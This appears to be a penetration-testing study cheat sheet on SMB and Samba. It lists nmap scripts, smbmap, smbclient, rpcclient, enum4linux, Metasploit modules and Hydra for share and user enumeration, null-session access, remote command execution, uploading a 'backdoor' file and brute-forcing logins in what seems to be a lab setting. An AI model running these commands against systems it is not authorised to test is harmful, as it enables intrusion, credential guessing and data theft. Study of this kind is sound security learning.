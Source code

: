 # Windows Discover & Mount
- SMB= Server Message Block
- SMB is a Windows implementation of a file-sharing
- SMB uses ports 139 or 445

# Nmap Scripts
```
smb-protocols
```
- Shows SMB Protocol dialects
- Issue: SMB v1
  
```
script smb-protocols
```
- Shows SMB Protocol dialects
- Issue: SMB v1

```
smb-security-mode 
```
- Issue: Messege_signing: disabled

```
smb-enum-sessions 
```

*Giving arguments to smb-enum-sessions will provide additional information*

```
smb-enum-sessions --script-args smbusername=administrator,smbpassword=password IP_address
```

```
smb-enum-shares 
```
- Shows all the SMB shares including Guest, IPC, and Print etc.

```
smb-enum-shares --script-args smbusername=administrator,smbpassword=password 
```
- Shows permissions to the shared accounts

```
smb-enum-users --script-args smbusername=administrator,smbpassword=password 
```
- Issue: See the flags 

```
smb-enum-stats --script-args smbusername=administrator,smbpassword= password 
```
- Server statistics:
	- How many files are sent?
	- Failed Logins
	- Permissions etc.

```
smb-enum-domains --script-args smbusername=administrator,smbpassword=password 
```
- Names of connected Groups

  
```
smb-enum-groups --script-args smbusername=administrator,smbpassword=password 
```
- Provides list of users in Groups


```
smb-enum-services --script-args smbusername=administrator,smbpassword=password 
```
- Stat about running services
  
```
smb-enum-shares,smb-ls --script-args smbusername=administrator,smbpassword=password IP_address
```
- “smb-ls” tells us what's inside each of the shares like finding directory

# SMBMap

### Nmap script: smb-protocols IP
- Shows SMB Protocol dialects
- Issue: SMB v1

### TOOL: smbmap
```
smbmap -u username -p "" -d . -H IP_addr
```
- Shows Permissions of an account with a null password
- -d = directory to see
- -H = Host IP address

```
smbmap -u administrator -p password -H IP_addr -x "ipconfig"
```
- -x = command to execute
  
### After getting SMB connection:
```
smbmap -u administrator -p password -H IP_addr -L
```
- -L = List out the contents of different drives

```
smbmap -u administrator -p password -H IP_addr -r 'C$'
```
- -r = listing a drive content

### Uploading file to target device:
- Create a file (named 'backdoor') in the attacker's device
```
touch backdoor
```
- Uploading 'backdoor' file to the target device where the flag is located
```
smbmap -u administrator -p password -H IP_addr --upload "/root/backdoor" "C$\backdoor"
```
- Check again if the 'backdoor' file is uploaded:
```
smbmap -u administrator -p password -H IP_addr -r "C$"
```
### Downloading file from target device:
```
smbmap -u administrator -p password -H IP_addr --download "C$\flag.txt"
```
- File will be downloaded to the attacker device's “/root” folder.


# SMB - Samba 1
* Always check both TCP and UDP ports using Nmap *

### Nmap Scripts: SMB-os-discovery
### Metasploit Script: auxiliary/scanner/smb/smb_version
### nmblookup: 
• nmblookup –h
• nmblookup -A IP_addr
### smbclient: 
```
smbclient -h
smbclient -L IP_addr -N
```
- -L = List of Hosts
- -N = Null Session = No password

### rpcclient:
• rpcclient -h
• rpcclient -U "" -N IP_addr
- -U= Username
- -N= Null Session= No Password


SMB - Samba 2
 rpcclient:
•	rpcclient -U "" -N IP_addr
After connecting to rpcclient:
•	? 		  	  <<< help
•	srvinfo
•	enumdomusers  	  <<< getting user list
•	lookupnames username  <<< Get full SID of admin
•	exit

enum4linux:
•	enum4linux -h
•	enum4linux -o IP_addr
		-o = Get OS information
•	enum4linux -U IP_addr
		- U = Get user list

 smbclient:
•	smbclient -L IP_addr -N


Nmap Script:
•	smb-protocols
•	smb-enum-users

 Metasploit:
•	auxiliary/scanner/smb/smb2


SMB - Samba 3
 
Nmap script:
•	smb-enum-shares

Metasploit:
•	auxiliary/smb/smb_enumshares

enum4linux:
•	enum4linux -S IP_addr
 		-S =Share information
•	enum4linux -G IP_addr
		-G = Group Information
•	enum4linux -i IP_addr
	-i = network interface


 smbclient:
•	smbclient -L IP_addr -N
		-L = IP list
		-N= Null session (No password)

Getting connection:
•	smbclient //IP_addr/Public -N
	help
	ls
	cd
	get  >>> to download a file
	exit

rpcclient:
•	rpcclient -U "" -N IP_addr

After connecting...
	enumdomgroups

SMB Dictionary Attack


Metasploit:
•	auxiliary/scanner/smb/smb_login
	wordlist >> /usr/share/wordlists/metasploit/unix_passwords.txt

Hydra:
•	hydra -l admin -P /usr/share/wordlists/rockyou.txt IP_addr smb 


smbmap >> To Login Access
•	smbmap -H IP-addr -u admin -P password

 smbclient  >> To see any shares are browse-able
•	smbclient -L IP_addr -U username
•	smbclient //IP_addr/username -U username
o	help
o	ls
o	get
o	exit

PIPE
The way the services talk to each other is through pipes.
Named pipes are pipes that are known.
If we get into SMB, there is a chance that we can get into other services that are piped through it. 

Metasploit:
•	auxiliary/scanner/smb/pipe_auditor

enum4linux:
•	enum4linux -r -u "admin" -p "password" IP_addr
		-r = User's SID








